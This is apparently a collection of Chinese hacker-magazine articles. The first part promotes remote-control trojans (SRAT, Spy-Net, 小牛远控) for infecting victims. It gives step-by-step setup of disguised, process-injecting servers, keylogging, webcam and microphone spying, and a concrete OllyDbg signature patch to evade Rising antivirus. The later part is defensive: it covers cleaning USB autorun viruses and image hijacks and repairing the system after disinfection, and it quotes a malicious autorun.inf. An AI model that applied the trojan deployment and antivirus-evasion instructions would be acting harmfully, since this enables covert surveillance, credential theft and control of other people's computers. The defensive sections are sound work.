不过这样的话，局域网中使用了防火墙，可能会对 VPN 的连接进行拦截，这样有可能会造成服务端无法连接。如果遇到上面所说的这些问题，我们又该进行如何操作呢？我们可以使用 TCP 隧道这种内网服务方式，同样该服务的账号注册非常方便。

注册完成后，苹果茶会提示用户系统已经把本地的 80 端口转到服务器上的 10544 端口上，因此要访问这个局域网的 80 端口，我们必须在浏览器上输入“http://注册名.meibu.org:10544”。由于苹果茶默认提供的是 80 端口服务，要想让服务端程序成功连接客户端，不仅要让客户端的监听端口设置为 80，还需要在配置服务端的时候在地址栏输入上面那样的带有端口的地址信息。

如果我们想使用木马默认的端口进行连接，那么只需要在官方网站进行登录，在弹出的网页中将默认的 80 端口修改为木马使用的端口就行了，如图4。当使用苹果茶客户端程序登录成功后，服务端就可以通过上面的地址进行自动连接。


在使用苹果茶提供的这个服务时，局域网的防火墙需要开通 TCP 协议的 40544 和 20544 端口，以及 UDP 协议的 9101 端口。

## 躲过360安全卫士的SRAT


这段时间里各种各样的木马公布得非常多，这让小菜们又可以疯狂地捉肉鸡了。今天我们就来看一款名为“SRAT远程控制”的木马，这是一款最近推出的国产木马程序，它有着很多独特的技术特点，我们还是来感受一下它的魅力吧。

#### 一、配置服务端

首先运行 SRAT 远程控制的客户端程序，在弹出的窗口中点击工具栏上的“创建客户端”按钮，这样就可以进行服务端的配置操作了。在“上线设置”的“IP通知”输入框里输入客户端要连接的地址（也就是我们公网的 IP 地址，建议大家使用动态域名上线方式）。总的来说，SRAT 支持 HTTP 访问地址、DNS 域名以及静态 IP 地址等上线方式。设置好上线方式后，我们再设置服务端的连接端口和连接密码，如图1。

通过测试我发现，SRAT 远程控制的服务器端 DLL 文件伪装成微软的一个网卡驱动文件，同时还将服务端的 DLL 文件插入到了 Svchost.exe、资源管理器、第三方程序在内的多个进程中，这样就可以更好地进行服务端的保护了。勾选窗口下方的“过360安全卫士”选项，这样就可以避免修改版 360 安全卫士弹出提示窗口，同时也可以躲过金山清理专家的恶意程序扫描。全部设置完毕后，我们点击“生成服务端”按钮就可以创建服务端程序了。


#### 二、服务端控制

为了测试方便，我们就直接将服务端传给局域网中的一位同事了。由于木马的数据传输采用了 ZLIB 压缩方式，因此服务端程序在运行后很快就成功连接了客户端，如图2。在列表中选择上线的远程计算机，点击鼠标右键或者工具栏中的控制按钮，就可以执行远程控制命令了。

SRAT 的远程控制功能主要包括文件管理、屏幕监控、超级终端、键盘记录等。首先我们点击“文件管理”命令，在弹出的“文件管理”窗口中就可以进行各种操作了。SRAT 远程控制采用了一种类似于资源管理器的文件查看方式，我们在“当前目录”列表中选择需要查看的磁盘分区，接着就可以查看到该分区的文件夹和文件，然后点击目录列表中的任意一个目录，就可以查看到这个目录中的所有文件信息，通过右键中的命令就可以执行文件的上传、下载、删除、运行等管理操作了。

## 牧马记


图2

通过窗口下方的进度条看到正在进行的文件传输的最新情况，另外 SRAT 远程控制还支持文件的断点续传。

点击“屏幕监控”命令后，在弹出的窗口中就可以对远程桌面进行实时查看了。首先勾选“开始”，这时在窗口正中间就可以看到监控的桌面信息；由于程序默认采用 8 位色进行显示，因此监控的桌面图像效果特别不好，这时可以通过“色深”列表来选择 24 位色进行显示，这样图像效果马上就会好很多，如图4。在“显示方式”列表中可以根据显示器的形态来选择详细或平铺资料并显示桌面信息的方式，而选中“控制”和“显示鼠标轨迹”选项，就可以通过鼠标、键盘来进行控制操作了，并且可以在桌面上看到鼠标的运行轨迹。可惜的是，SRAT 远程控制没有屏幕保存功能，因此截获的图像信息无法进行任何形式的保存。


图3


图4

点击工具栏中的“超级终端”按钮，在弹出的窗口中可以模拟一个命令提示符，点击窗口下方的“开启”命令，这样服务端程序就会调用远程系统的命令提示符，这样我们就可以在这儿执行很多网络终端命令以及本地操作命令了。对于广大的木马爱好者来说，键盘记录功能是一个非常重要的控制功能，使用它可以做什么就不用多说了吧。点击“键盘记录”按钮后，在弹出的窗口中点击“查看内容”就可以看到记录信息了，如图5。


图5

虽然很多木马都包括键盘记录功能，但是可以准确记录中文信息的却不多，这点 SRAT 做得还不错。不过 SRAT 对于键盘的操控还需要加强。

点击“进程管理”命令后，就可以查看远程计算机当前的进程情况了。SRAT 的进程管理功能中除了常见的“进程刷新”和“进程终止”外，还包括了“内存转储”“内存补丁”和“存为文件”等几个命令，如图6。不过这几个命令我测试了很久，也没有想出有什么具体作用，看来还需要大家自己去研究呀。


图6

通过“服务管理”命令，我们就可以对远程系统中的启动服务进行各种管理了。在服务列表里可以看到所有的启动服务，通过右键可以实现启动服务、删除服务、停止服务的操作，比如停止杀毒软件或防火墙的启动服务，如图7。


图7

除此之外，程序还可以让用户创建新的服务项，点击“安装服务”命令后，在弹出的窗口中按要求依次输入服务名称、服务描述以及文件的路径等信息，这样一个新的系统服务就创建完成了。同样，“注册表管理”命令就是管理远程注册表的，在列表中选择需要查看的注册表主键，依次选择需要进行查看的键值，然后在窗口右侧通过右键命令，就可以进行新建、删除或者重命名等操作了。

另外，我们点击工具栏中的“音频监控”命令，就可以通过远程计算机连接的麦克风来截取计算机周围的声音并播放出来。连接成功后，在“音频监控”窗口中设置“采样率”和“声道”选项，选择打开窗口中的“开启”选项，这样就可以听到远程计算机发出的声音了，比如电脑正在播放的 MP3、用户的语音聊天等信息，如图8。而“摄像头监控”命令可以监控远程系统，通过摄像头捕获视频信息，不过由于朋友的电脑没有安装摄像头，因此就没有对这个功能进行详细的测试。


最后我们再来看主窗口下面的三个选项，分别是“日志查看”“批量操作”和“已开窗口”。通过“日志查看”选项我们可以了解程序启动端口打开情况及服务端的连接情况，至于“批量操作”更是大家常见的命令，通过它可以对所有上线主机进行统一的操作，比如文件下载、网页打开、远程重启等。由于 SRAT 支持多命令操作，因此在“已开窗口”选项中可以看到已经打开的控制命令窗口，这个功能可是国产木马中很少拥有的，这样用户就可以方便地在多个控制命令窗口中进行切换，当然也可以非常方便地进行指定命令窗口的关闭了。

#### 三、小结

至此，我们已经将 SRAT 远程控制软件的主要功能介绍完毕了。其实通过上面的介绍，相信大家已经感受到了，这个木马程序可以说是平稳中带有自身的特色，比如它不仅保留了木马程序常用的控制功能，还在木马突破性方面针对现在流行的 360 安全卫士等，因此推荐各位木马爱好者试用感受一下。（本文所涉及到的 SRAT 已收录到光盘中）

> 国内木马“公布出来就会被查杀”，小菜鸟如何“免杀”？

## 国外脱壳的远控软件——Spy-Net

txcbg

国内木马可以说是一公布出来就会被查杀，而对于小菜我来说又不怎么会制作免杀，于是只好找一些好用的国外木马来玩。好友给我推荐了 Spy-Net，它的全称为 Spy-Net Remote Administration Tool（Spy-Net 远程管理工具），原版是一款英文软件，好在国内已经有人将其汉化了，本文就以 Spy-Net 0.7 汉化版为例来简单介绍一下它的使用。

Spy-Net 具有非常强的主动防御能力（过瑞星主动防御易如反掌），支持多地址上线、反虚拟机，可以说是一款非常优秀的远程控制软件。首先要说明一下，由于 Spy-Net 0.7 汉化版已经公布一段时间了，所以控制端程序会被杀毒软件查杀，玩过木马的朋友应该都知道这点：木马只要被公布出来也就意味着被查杀，我们要做的就是对生成的服务端程序进行免杀就可以了，这也就是黑客免杀技术流行的原因所在。

#### 一、配置服务端

运行 Spy-Net 0.7 汉化版，软件的界面如图1所示，先点“选项”按钮进行一些连接的基本设置。Spy-Net 最多支持监听 3 个上线端口，想取消监听某个端口，用 0 代替就行了。把“显示口令”选上，这样就可以看到默认的连接密码；把它更改成自己想设置的连接密码，我设置的是 123，如图2。


我们再点“新服务”按钮来生成一个服务端程序，把连接口令和上线端口分别填写好。Spy-Net 最多支持 20 个上线地址，在默认的上线地址上点鼠标右键，选择删除，然后输入自己的上线地址，因为是在本机演示，所以我输入的就是 127.0.0.1。


实际应用时，大家可以输入自己的公网 IP 地址或者申请的动态域名。设置好后点击“高级设置”，会把 127.0.0.1 加入到上线地址列表中。安装名称和安装目录都可以自定义，“隐藏设置”里面的选项可以根据自己的需要进行选择，“Scveral”选项下的“资源管理器中隐藏 PID”可以使木马的进程在资源管理器中不显示，而“启动时激活键盘记录”顾名思义就是在木马运行后立即打开键盘记录功能。

Spy-Net 还可以反 Virtual PC、VMWare、VirtualBox 等常用虚拟机，使服务端在虚拟机里不运行，可以起到一定的反调试作用。另外它声称还能穿透一些常用沙箱，但由于条件限制我没有进行这方面的测试。“上线名称”处我填写的是 hackerxfiles 投稿演示，再来看启动方式，这里要注意一下，它的默认启动方式是不启动。Spy-Net 提供了 ActiveX 和注册表启动两种启动方式，具体选择哪种就看自己的喜好了。我选择的是通过注册表项来启动，我们还可以对具体的注册表项名称进行自定义。

我使用的就是默认的 Windows Firewall 了。另外，为了方便制作免杀，不要选择“使用 UPX 压缩”。现在，该填的都填了，该选的也都选了，最后点击右下角的“创建服务端”按钮就可以生成一个服务端程序了，如图3。

#### 二、控制功能简介

上线主机上线了，如图4。Spy-Net 的所有控制功能都存在右键菜单里，我们在上线主机上点鼠标右键，就会看到 Spy-Net 的控制功能菜单，如图5。


选择“文件管理”就会打开“File Manager”窗口，它主要分为“文件管理”“搜索文件”“Transfers”三个选项；其中“搜索文件”可以搜索指定文件名并支持通配符；“Transfers”可以对上传下载文件进行暂停、删除任务等操作。

在“文件管理”里点击鼠标右键，选择“刷新”，就会列出本机磁盘信息，然后可对磁盘上的文件进行各种操作，如图6。


“远程终端”提供了一个命令行下的管理窗口，在弹出的窗口中点“开始”即可执行各种系统命令；“进程管理”可列出当前进程信息并可结束进程；“注册表管理”可进行注册表新建、删除等；“服务管理”可对远程服务进行启动、停止、卸载，还可新建服务，如图7。

“窗口管理”可以列出上线主机所有窗口，并可对指定窗口进行关闭、最大化、最小化、隐藏、改标题、禁用关闭按钮等操作；“剪切板管理”可获取剪切板内容；“键盘记录”可记录击键；“捕捉桌面”“捕捉摄像头”“捕捉音频”可进行桌面/视频/音频监控；“下载文件并运行”可让上线主机下载并执行指定文件；还包含隐藏运行、访问指定网页、打开聊天窗口、上传插件、服务端设置、安装信息、系统信息等功能。

#### 三、轻松过瑞星主动防御

文章开头提到 Spy-Net 生成的服务端程序此前已被查杀，不过其免杀相对简单。使用 PEiD 查壳显示为 Borland Delphi 6.0-7.0，无壳；再用 MyCCL 定位特征码，得到“[特征] 0002887F_00000002”。尝试修改字符串失败后，转而在 OD 中将 0002887F 转换为内存地址 1002947F 并定位代码。

```asm
10029476  68 E0920210    mov  eax,100292EC
1002947B  E8 C4A6F0FF    call 10003B44
10029480  33C0           xor  eax,eax
10029482  55             push ebp
10029483  68 5BAC0210    push 1002AC5B
```

正好是一个 call，再按 Ctrl+G 到 10003B44（call 后跟随地址），发现代码如下：

```asm
10003B43  90        nop
10003B44  53        push ebx
```

可以看到两行代码等长，将它们互换位置（如图8），然后把 1002947B 处代码改为“call 10003B43”，保存为新文件，再用瑞星扫描即可绕过查杀。

看看能不能过瑞星的主动防御：把瑞星升级到最新病毒库，再把所有监控打开，运行经过免杀处理的服务端程序，很快就上线了，而瑞星也没有任何反应，如图9。再扫描一下内存，也没报毒，如图10。这说明瑞星就这一处文件特征码。我们轻松地过了瑞星的主动防御。后来我又测试了是否能过卡巴的主动防御，结果却没有成功。


Spy-Net 是一款国外软件，被国内杀毒软件查得也不紧。如果大家正在为自己的木马过不了瑞星主动防御而发愁的话，那就试试 Spy-Net 吧。

> （本文所涉及到的 Spy-Net 已收录到光盘中）

### 类似灰鸽子的“小牛远控”

天涯哀草

经常玩远控木马的小菜都知道，远控木马最主要的不是功能的多少，而是木马运行的稳定性。只有木马正常稳定地运行，才可以保证自己的肉鸡不丢失。今天我就给大家介绍“小牛远控”，从它的名字我们就会想起“俯首甘为孺子牛”的含义。

#### 一、配置服务端

首先点击工具栏上的“配置服务端程序”按钮，在弹出的窗口中输入反弹连接的地址、端口以及上线备注等信息就可以了，如图1。小牛远控的服务端配置非常简单。经过观察我发现，服务端将自己伪装成一个名为 mpeg4c32.dll 的功能模块，并且标注为微软的 MPEG-4 解码器文件，插入到了系统进程 Svchost.exe 中。同时服务端的启动服务也伪装成了微软的启动服务，这样使用常见的安全工具是很难检测到它的。


#### 二、服务端操作

我们在远程系统中运行这个服务端程序，很快服务端就连接成功了。选择列表中的上线主机，点击上方工具栏中的图标，或者选择右键菜单中的命令，就可以对远程计算机进行操作了，如图2。

首先点击工具栏上的“屏幕监控”按钮，在弹出的“捕获屏幕”窗口中就可以看到远程用户正在做什么，如图3。小牛远控的屏幕捕获速度非常快，但因传送的屏幕彩色非常低，我们可以在屏幕捕捉窗口的标题栏上点击鼠标右键，在弹出的右键菜单中选择“24Bits 颜色图像”，这样显示效果就好多了。为了更好地进行观察，程序默认使用的是“显示原始大小的图像”，如果远程屏幕比我们的屏幕大，那么使用默认的监控模式就无法全屏查看了，此时我们选择“显示虚拟模式的图像”就可以解决了。通过“控制远程主机”命令可以在捕捉的屏幕上使用鼠标和键盘进行远程屏幕操作，整个操作过程就如同在控制自己的电脑一样。另外，通过命令我们还可以获取远程系统的剪贴板内容，甚至将本地系统的剪贴板信息发送到远程主机中。小牛远控的屏幕保存功能非常简单，只能将捕捉的图像信息保存为图片文件，而不能保存为视频图像文件等流媒体格式。


小牛远控里也包括了时下流行的摄像头监控功能。点击“视频监控”按钮后就会弹出“视频监控”窗口，程序会首先获取远程视频设备的信息，如果发现存在视频设备，以后就可以在“视频选项”列表中选择要使用的设备了。接着点击“开始获取视频”按钮，我们很快就可以通过“视频图像”窗口看到远程视频信息了。通过分辨率下拉列表还可以调整视频图像的大小。另外我们还可以选择“保存视频”选项，将摄像头捕捉到的内容保存为相应文件。保存视频时软件提供了两种编码方式，如果系统没有安装相应的编码器，那么点击“安装编码器”按钮就可以自动进行安装了。除了摄像头视频监控外，还可以进行音频监控操作。


点击“语音交流”按钮，会弹出监听/录音相关选项；选择“捕捉声音”并点击“开始监听”后，可以清晰听到对方语音；若勾选“保存声音”则可将获取到的远程语音录制为 Wav 声音文件，如图4。

文件管理是任何一款木马必备的功能，通过它我们可以管理远程计算机中的文件。点击工具栏中的“文件管理器”按钮，小牛远控的文件管理采用了类似“双窗口”方式：左侧为本地目录，右侧为远程目录。通过双击、右键菜单等命令可以完成浏览、复制、粘贴、删除等管理操作；支持文件下载与断点续传；也可在目录中通过“搜索”命令按文件名进行查找并显示结果。


现在点击“系统管理”命令，在弹出的窗口中可以看到窗口管理、进程管理、服务管理和系统信息等选项。利用“进程管理”和“窗口管理”命令，可以对远程进程及窗口进行管理；可查看当前进程状况并通过“结束进程”关闭不需要的进程。窗口管理支持隐藏窗口、显示窗口、关闭窗口、窗口前置等操作（如图6）。在“服务管理”中可查看、启动、停止、删除系统服务，也可通过右键对服务项执行相应操作，并可在新增服务中配置服务名称及程序链接等。

再点击工具栏中的“Telnet”按钮，小牛远控会调用远程命令提示符窗口来执行终端操作命令（如系统信息查看、网络命令执行等，如图7）。由于其在 Telnet 命令中使用了通道相关技术，因此命令执行和信息返回速度较快，并可较轻松地穿透网络防火墙。


#### 三、小结

到此为止，小牛远控的主要功能就介绍完了。通过测试我们可以看到，小牛远控只包括一些常见功能，但是程序无论从稳定性还是隐蔽性来说都非常优秀，因此在进行远程控制时，我们以后就有了一种全新的选择。

### 遭遇奇怪的 MS-DOS.com 病毒

naonao


前几天在学校上网时不小心感染病毒，起初以为只是网页恶意代码，重启即可恢复。后来将手机连接电脑并向 U 盘拷贝资料后，发现出现异常：目录里多出 `autorun.inf`，并出现可疑的 `ms-dos.com` 文件。

继续排查时，手机文件管理器读不到原有内容，但文件仍占用空间；在电脑上可见、手机上不可见。作者据此怀疑 U 盘/存储卡被病毒处理过，且文件被隐藏或替换。

通过工具看到两个可疑文件：`autorun.inf` 与 `ms-dos.com`。文中判断后者为病毒体，前者为其启动/传播线索，并提到当时公开资料较少、专杀工具不完善。

病毒行为：复制并隐藏原文件、将文件属性改为系统/隐藏/只读，目录中大量出现约 220K 的伪装 EXE；在移动设备上表现为“看似丢失、实则被隐藏”。


处理思路：先在 CMD 中恢复属性，再删除病毒源文件。文中给出命令 `Attrib U盘符:\*.* -r -h -s /s /d`，用于取消只读、隐藏、系统属性并递归处理目录。

```bat
@echo off
taskkill /im Global~.exe /f
taskkill /im tskmgr.exe /f
title naonao@#@
for /D %%d in (c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z) do if exist %%d:\autorun.inf del %%d:\autorun.inf
for /D %%d in (c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z) do if exist %%d:\MS-DOS.com del %%d:\MS-DOS.com
cls
```

删除后再次执行属性恢复命令，使被隐藏文件重新显示；再手工清理 220K 伪装 EXE，U 盘与手机数据可恢复正常访问。

### 看小菜我来剥病毒的皮

受良言（冯龙春）

作者因帮人找数据恢复软件而误下载到带毒自解压文件，杀软扫描未发现异常，尝试用 WinRAR 打开时选项异常，由此怀疑样本被处理过。


## 毒瘤

改 61。


图2


图4


图5

单击 88，光标在它前面和后面时便可直接输入 61，修改后如图3所示。我们还要搜索一次，注意搜索的格式是“52**72211A07”，其中 ** 就是刚才所出现的 88（假如前面搜索到 807A01，后面的数字是 99，那么第二次搜索就要搜索 529972211A07）。我们再次搜索 528872211A07（图4），同样把 88 改为 61，修改完成后如图5所示。点击左上角的保存按钮后，弹出备份窗口，点击“是”，最后退出 C32ASM。


图6


图3

再次使用鼠标右键单击那个自解压程序，原形出来了。进去一看，居然还有一个 setup.vbs 文件（图6）。我把它提取了出来，打开查看竟然是加过密的（图7）。继续来剥皮，我可没有闲情研究它的加密算法。VBS 加密后终究还是要靠它自己来解密的，不然无法运行，而这个 VBS 文件是通过自定义 runner 函数来解密的。

```vb
（图7中的大量数字数组与脚本片段）
```

图7

```text
（图9：Code.txt 内容，包含解码后的大量脚本文本）
```

图9

```vb
（图8：将 execute 命令修改并写出 Code.txt 的脚本代码）
```

图8

我们将文件后边的 execute 这个执行命令更改掉，改为如图8所示的样子，这样我们再双击运行 VBS，病毒就自己把自己写出来了。我们打开生成的 Code.txt 文件（图9），想不到病毒作者竟然二次加密了，真是够变态的。我就懒得去分析了，剥皮的方法还是一样。至于病毒样本就提供给大家，权当给大家留一个作业吧^^。最后我把文件全部删除了，连自解压都搞鬼的病毒，想来这个软件也不是什么好东西。但想总结一下，要是病毒作者把 WinRAR 的自解压图标也更改一下，那样隐藏性就大大增强了，因为不可能每个人都使用 C32ASM 查看一下吧！

### 小菜的无名病毒遭遇战

孤独战神

前几天我使用自己的电脑给一朋友的 U 盘里拷点东西，但当拔除 U 盘时却发现无法停止设备，凭直觉来判断我的电脑有可能遭遇不测了！马上按 Ctrl+Alt+Del 调出任务管理器查看系统进程，看到了解析非常奇怪的没有名字的 .exe 进程，如图1。


正常的程序怎么能没有名字呢，这病毒也太明显了吧！我尝试运行一些安全工具，发现几乎所有的工具都无法运行了。预料之中的事，这就是目前比较流行的映像劫持！它是在注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 项下建立许多安全工具的程序名，并建立一个 DOWN 值来指向病毒程序，因此当我们试图打开这些安全工具时就会运行指定的病毒程序。但也正是这点，让我们轻松地找到了病毒的老巢 `C:\Program Files\Common Files\Microsoft Shared\.exe`，如图2。

马上结束掉 .exe 进程树（单个结束任何一个 .exe 进程都会失败，它们是相互守护的），接着来到病毒的目录下（已经被病毒隐藏了，而且无法查看，需要在“运行”栏输入 `C:\Program Files\Common Files\System\` 来进入），却发现什么文件也没有，肯定是被隐藏了。调出 CMD 命令提示符，切换到该目录下，运行 attrib 命令来让病毒文件显形，然后就可以删除它们了，如图3。

```bash
attrib -s -r -h /s /d *.*
```

我又在注册表的启动项下发现了病毒的身影，只是指向的地址变成了 `C:\Program Files\Common Files\System\\.exe`，如图4。看我它还留了条后路，直接删除掉，然后使用上述的方法删除掉病毒文件。现在，病毒就基本上被我给消灭了。


下面是我在虚拟机下检测到的病毒的注册表操作，主要是删除安全模式项让我们无法进入安全模式，并将病毒文件修改为隐藏和系统属性，使得我们无法查看到病毒文件，来达到隐藏自己的目的。另外就是映像劫持和自启动项的创建。根据病毒的操作，我制作了一个批处理脚本来简化手工杀毒操作，其运行后的效果如图5所示。

好了，病毒已经离我们远去了，简单吧。祝大家在手工杀毒的道路上一路驰骋！（文章中涉及到的病毒样本和杀病毒批处理脚本已经收录在光盘中）

### 设置文件权限让驱动级木马露马脚


现在流行的远程控制软件，大都是驱动级的木马（比如大名鼎鼎的 pcshare），使用了 Rootkit 技术，可以隐藏进程、文件、端口等。使用这种技术隐藏的木马是比较难查杀的。在这些隐藏中，最值得我们注意的是它隐藏了端口。如果木马免杀并特别加壳，一般的杀毒软件是根本无法扫描出来的。

这种情况下，我们通常使用同级别的杀毒辅助工具（比如 wsyscheck）来辅助排查。在进程中可以看到插入 DLL 后异常的进程，如图1。图中显示为粉红色的 svchost.exe，在下方的“模块路径”框中可以看到被插入了 zznreeee.dll。清除方法是在这个 dll 上点鼠标右键，然后选择“卸载模块”即可。


其实，我们还可以设置权限来防止驱动级木马。这可以让其失去驱动隐藏功能，暴露自己的行踪，这样查看服务时显示木马的服务名称（当然，木马还是系统服务）以及端口时就比较容易发现了。我们来测试一下设置权限防范驱动级木马的效果，先配置好一个服务端程序，运行后正常上线，如图2。

在“运行”栏输入 cmd 打开命令提示符，然后输入 `netstat -an`，可以看到对外连接情况，如图3。这里显示了对外连接，例如本地 3173 端口连接远程地址的 8181 端口。对于隐藏服务的测试，主要是查看驱动级木马是否隐藏了服务；在此就不测试了（建议使用 360 看端口的系统服务状态来测试）。


接下来我们设置权限。木马在自动运行后会释放一个 SYS 文件到 DRIVERS（一般位于 `C:\WINDOWS\system32\drivers`）目录，所以我们只要设置写入权限就可以让其失去隐藏端口的目的。需要设置权限的磁盘必须是 NTFS 文件系统，如果不是，可在“运行”栏输入 `convert X:/fs:ntfs`（X 为盘符）将其转换为 NTFS 文件系统，一路输入 Y 即可，如图4。


转换完成后打开 DRIVERS 文件夹，在菜单点击“工具”→“文件夹选项”，在弹出窗口切换“查看”，将“使用简单文件共享（推荐）”前的勾去掉，然后确定，如图5。


在需要设置权限的 `drivers` 文件夹上右键，选择“属性”→“安全”，即可看到权限设置窗口，如图6。在“组或用户名”中选择“Users”，并在下方权限中将“写入”的“拒绝”勾选，这样就可以限制木马程序向该文件夹写入文件。


如果有多个“受限的账户”，还可以点击“添加”输入账户名继续设置权限。也可以对 SYSTEM32 文件夹做类似设置。设置完后重新加载木马并重建服务端运行，再查看连接情况，如图7。与图3对比可观察木马是否已无法连接远程地址。


### Autorun.inf 光荣复活

DDNP & 飘来飘去 [B.B.E]


今天中招了，病了好久才发现是 U 盘病毒，所有的黑客软件都不能使用……虽然这种病毒没什么太大的破坏性，但和病毒和谐相处却非吾所愿。

```ini
[AutoRun]
open=hfludy.exe
shell\open=打开(&O)
shell\open\command=hfludy.exe
shell\open\default=1
shell\explore=资源管理器(&X)
shell\explore\command=hfludy.exe
```

可以发现这个病毒和以前的自动播放类病毒还有些不同……在这个 autorun.inf 文件中通过伪造右键菜单项来诱导运行病毒文件。

借用 QQ 好友的浏览器进行搜索，发现了解决方法……新建一个批处理文件，内容如下：

```bat
ntsd -c q -p 1956
del /a/f C:\Program Files\Common Files\System\wjftxbl.exe
ntsd -c q -p 1972
del /a/f C:\Program Files\Common Files\Microsoft Shared\mpsvbtk.exe
```

保存后运行，结束病毒进程，并删除相关病毒文件和 inf 文件……最后把分区根目录里的 hfludy.exe 和 Autorun.inf 删除即可。

### 杀毒遗留问题面面观

BaseNet

随着商业利益的驱使，网上的病毒和木马越来越多……系统杀毒后的遗留问题主要是由于病毒木马的自启动和恶意更改系统设置所导致的！

#### 一、自启动问题面面观

- 1. 启动项基础知识

自启动项大多是在系统启动的过程中加载的，我们来看看系统的启动过程……


图1


图2

看看系统的启动过程，这个过程可简单理解为 DOS 自检、BIOS 识别硬件、加载 NTLDR、内核初始化、加载驱动和服务，最后启动 GINA 并进入登录。

## 毒瘤

如图1所示，Autoruns 非常系统地列出了当前系统中所有的启动项目，从系统登录到服务到映像劫持都可以方便地查看。其实，对于普通用户来说，用到的启动项目只有 ctfmon.exe 和杀毒软件程序，所以可以在“开始”——“运行”栏输入 msconfig，然后在系统配置实用程序中选择“启动”项，将除了 ctfmon.exe 和杀毒软件程序以外的所有内容取消掉，如图2。

### 2．常见启动项问题

木马和病毒都试图在开机启动的时候启动自身，当我们杀毒后，恶意文件被删除，导致系统加载该启动项的时候出现了“加载 XXXX 文件失败，找不到指定文件”的提示。对于这种故障的解决，我们可以运行 autoruns.exe，选择“Everything”，在“File”菜单中选择“Find”，在对话框中输入系统错误提示的文件，找到启动项删除即可；也可以在“开始”——“运行”栏输入 regedit 打开注册表编辑器，在“编辑”菜单中选择“查找”，在弹出的对话框中输入系统错误提示的文件名 XXXX，找到启动项后删除即可。

### 3．Autorun.inf 启动导致的问题

有时杀毒完毕后，我们无法双击打开磁盘，必须通过右键选择“打开”才可以访问，而且右键菜单中出现了一个陌生的选项“Auto”。这其实是一种病毒木马的启动方式，病毒木马程序首先在磁盘根目录下创建一个 autorun.inf 文件，当用户双击打开磁盘后就会启动恶意程序。病毒删除后，由于打开方式被更改，而导致了问题的出现。

解决方法：我们可以在“开始”——“运行”栏输入 regedit，打开注册表编辑器，定位到 `HKEY_CLASSES_ROOT\Drive\shell` 或者 `HKEY_CLASSES_ROOT\Directory\shell`，将其下的 Auto 键删除就可以了。

### 4．登录启动导致的问题

有时杀毒完毕后，我们无法正常进入桌面，甚至无法进入系统，这主要是由于病毒木马程序在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下的 shell 和 userinit 项下做了手脚。我们通过注册表将其内容修改为正常值，shell 键的正常值为 Explorer.exe，userinit 键的正常值为 `C:\WINDOWS\system32\userinit.exe`。遇到这种问题，如果进入不了系统，我们可以使用 DOS 进行操作，所以说建议安装 DOS，在 DOS 下使用 ghregedt（该程序是诺顿硬盘分区工具中的 DOS 环境下的注册表编辑工具）程序进行恢复。对于如何在 CMD 下操作注册表，在以前的黑客大讲堂上曾经专门刊发过，有兴趣的朋友可以翻阅一下以前的杂志。如果可以进入系统，那就方便得多了，在注册表编辑器中修改为原来的正常值就 OK 了。

### 5．映像劫持导致的问题

出现该类问题的主要症状如图3所示。该类问题主要是因为恶意程序修改了 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 注册表项。当杀毒完毕后，删除了原来的恶意文件，当我们运行某个系统程序，比如 cmd 时，无法找到与其关联的可执行程序，因此就出现了上面的错误。我们可以运行 autoruns.exe，选择“Image Hijacks”，将错误提示中的文件名所命名的键删除就好了。

### 6．文件关联问题

杀毒完毕后，最常见的故障就是文件关联问题。文件分类依靠的是文件后缀名，对于不同的文件后缀名系统在进程中都进行了不同的设置，从而实现了特定文件和特定的应用程序相匹配。如果文件关联出现了问题，最常见的就是更改了 exe 文件的关联，这就导致了我们无法运行 exe 的安全程序和系统程序。这时候可以试着将可执行程序的文件后缀更改为 bat、com、cmd、pif、scr 等尝试运行。对于文件关联的修改可以通过导入注册表文件来实现，但是相对不如在 CMD 下使用 assoc 和 ftype 命令方便。以修复 exe 文件关联为例，在 CMD 下输入 `assoc .exe=exefile && ftype exefile="%1" %*`，回车执行就可以了。

## 二：文件恶意更改问题面面观

### 1．主引导记录、分区列表问题

该类问题主要是由引导型病毒所导致。引导型病毒是利用操作系统的引导模块存放在某个固定的位置，并且控制权的转交方式是以物理位置为依据，而不是以操作系统引导区的内容为依据，因而病毒占据该物理位置即可获得控制权，而将真正的引导区内容搬家转移或替换。待病毒程序执行后，再将控制权交给真正的引导区内容，这使得整个带病毒的系统看似正常运转，而病毒却已隐藏在系统中伺机作祟。

因为主引导记录和分区表都属于系统的底层操作，杀毒后往往会导致硬盘无法启动系统、分区表混乱等。对于该类问题，我们可以借助易我分区医生这款软件来修复。安装运行程序后的界面如图4所示。需要注意的是，我们日常工作中应该注意备份分区表内容，这样才可以在计算机出现问题的时候以最快的速度解决。在程序的“操作”菜单中选择“备份分区表”就可以了。


### 2．文件更改、丢失问题

很多木马都会巧妙地替换掉系统中的某些不常用文件，比如替换掉打印机服务；有的病毒还会恶意更改文件，比如春节期间流行的熊猫烧香病毒。对于后者我们只能依靠专杀工具来解决，而对于前者，我们可以先了解一下 WFP 机制。WFP 是 Windows 系统从 2000 开始使用的一种文件保护机制，具体实现依靠的是 `%systemroot%\system32\dllcache` 文件夹下的内容。我们可以在“开始”——“运行”框输入 gpedit.msc 打开组策略，定位到“计算机配置-管理模板-系统”，选择“Windows 文件保护”，对其进行设置；还可以通过 CMD 下的 sfc 命令进行操作。当然有的 WinXP 修改版本已经关闭了此功能，我们需要运行 regedit，找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`，对其下的 SFCDisable 键进行设置。值为 0 时为打开 WFP（默认状态），改成 1 可禁用 WFP；值为 2 表示仅在下一次启动时禁用；值为 4 表示启用且不显示提醒。在了解了 WFP 的一些常规操作后，当碰到杀毒后文件丢失的问题时，我们就可以在“开始”——“运行”中继续进行修复操作。

“运行”栏中输入 `sfc /scannow`，然后按提示插入 Windows 的安装光盘提取正确文件进行修复就可以了。

### 3．恶意更改注册表

很多木马为了隐藏文件，都会恶意更改注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL` 的 `CheckedValue` 值……解决的方法就是将其值设置为 1。很多病毒为了“延长自己的生命”，还会删除 `SafeBoot` 下的键值……

